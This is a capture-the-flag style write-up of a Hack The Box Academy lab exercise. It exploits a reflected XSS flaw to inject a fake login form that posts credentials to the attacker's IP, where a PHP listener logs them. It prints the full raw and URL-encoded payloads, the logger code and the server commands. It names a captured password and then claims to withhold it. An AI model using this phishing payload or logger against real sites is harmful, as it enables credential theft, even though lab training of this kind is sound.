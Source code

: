 # HTB Academy XSS Phishing Task Solution

This repository documents my complete solution to the Hack The Box (HTB) Academy Cross-Site Scripting (XSS) phishing task. The goal was to exploit an XSS vulnerability in an "Image URL" input field, inject a fake login form, capture victim credentials, and use them to retrieve a flag.

- **Attacker IP (My Machine):** `10.10.14.179` (where credentials are sent)
- **Target IP (HTB Server):** `10.129.9.211` (hosts the vulnerable app)
- **Date Solved:** April 10, 2025
- **Author:** Manoj (with assistance from Grok by xAI)

---

## Objective
Exploit the XSS vulnerability at `http://10.129.9.211/phishing/index.php?url=` to:
1. Inject a malicious login form that submits credentials to `10.10.14.179`.
2. Capture the victim's credentials using a PHP listener.
3. Log in at `http://10.129.9.211/phishing/login.php` with the captured credentials to get the flag.

---

## Step-by-Step Solution

### Step 1: Confirm XSS Vulnerability
1. **Access the Target Page:**
   - Navigate to: `http://10.129.9.211/phishing/index.php`
   - Identify the "Image URL" input field and submit button.

2. **Test Input Reflection:**
   - Enter: `test`, inspect the page source.
   - Expected: `<img src='test'>` → potential XSS.

3. **Test XSS Exploit:**
   - Input: `'><script>alert(1);</script>`
   - URL: `http://10.129.9.211/phishing/index.php?url='><script>alert(1);</script>`
   - Outcome: Alert pops up → XSS confirmed.

---

### Step 2: Craft the Malicious Payload

#### HTML:
```html
<h3>Please login to continue</h3>
<form action=http://10.10.14.179>
  <input type="username" name="username" placeholder="Username">
  <input type="password" name="password" placeholder="Password">
  <input type="submit" name="submit" value="Login">
</form>
```

#### Raw Payload:
```javascript
'><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.14.179><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script><!--
```

#### URL Encoded Payload:
```
%27%3E%3Cscript%3Edocument.write%28%27%3Ch3%3EPlease%20login%20to%20continue%3C%2Fh3%3E%3Cform%20action%3Dhttp%3A%2F%2F10.10.14.179%3E%3Cinput%20type%3D%22username%22%20name%3D%22username%22%20placeholder%3D%22Username%22%3E%3Cinput%20type%3D%22password%22%20name%3D%22password%22%20placeholder%3D%22Password%22%3E%3Cinput%20type%3D%22submit%22%20name%3D%22submit%22%20value%3D%22Login%22%3E%3C%2Fform%3E%27%29%3Bdocument.getElementById%28%27urlform%27%29.remove%28%29%3B%3C%2Fscript%3E
```

#### Malicious URL:
```
http://10.129.9.211/phishing/index.php?url=%27%3E%3Cscript%3Edocument.write%28%27...%3C%2Fscript%3E
```

---

### Step 3: Set Up the Listener

#### PHP Listener (index.php):
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://10.129.9.211/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

#### Command:
```bash
cd /tmp
nano index.php
sudo php -S 0.0.0.0:80 -t /tmp
```

Test with dummy credentials, check `/tmp/creds.txt`.

---

### Step 4: Send the Malicious URL

```
http://10.129.9.211/phishing/send.php?url=http://10.129.9.211/phishing/index.php?url=%27%3E%3Cscript%3Edocument.write%28%27...
```

HTB bot visits, submits credentials, and they're logged.

---

### Step 5: Login and Get the Flag
- URL: `http://10.129.9.211/phishing/login.php`
- Username: `admin`
- Password: `happyhacking`
- Result: HTB{...}

---

### Step 6: Cleanup
```bash
Ctrl+C
rm /tmp/index.php /tmp/creds.txt
```

---

### Troubleshooting

- **No XSS?** Try `<img src=x onerror=alert(1)>`
- **No creds?** Check if server is listening and VPN is up.
- **Login fails?** Verify credentials captured properly.

---

### Tools Used

- Browser: Firefox
- Terminal: PHP Server
- OS: Kali Linux
- Editor: Nano

---

### Outcome

- Captured: `admin / (not giving because of HTB policy)`
- Flag: Successfully retrieved.

Happy hacking!
